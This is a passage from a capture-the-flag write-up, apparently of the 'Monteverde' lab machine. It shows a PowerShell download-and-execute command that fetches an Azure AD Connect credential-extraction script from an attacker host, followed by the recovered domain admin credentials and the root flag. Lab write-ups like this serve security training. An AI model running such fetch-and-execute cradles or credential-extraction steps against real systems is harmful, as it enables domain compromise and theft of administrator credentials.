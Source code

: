 ```shell
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"

IEX(New-Object Net.webClient).downloadString('http://10.10.14.20/azuread_decrypt_msol.ps1')
```

![](assets/Monterverde_assets/Pasted%20image%2020231114203900.png)
there are other tools too like  [https://github.com/dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump)
- then running the command, we get the password hash

```shell
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> IEX(New-Object Net.webClient).downloadString('http://10.10.14.20/azuread_decrypt_msol.ps1')
AD Connect Sync Credential Extract POC (@_xpn_)

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

- so checking the validity of the credentials, we can see that we do have the DA credentials

![](assets/Monterverde_assets/Pasted%20image%2020231114204351.png)

- so now we have access as DA

![](assets/Monterverde_assets/Pasted%20image%2020231114205716.png)

- we can now view our root flag

![](assets/Monterverde_assets/Pasted%20image%2020231114205655.png)
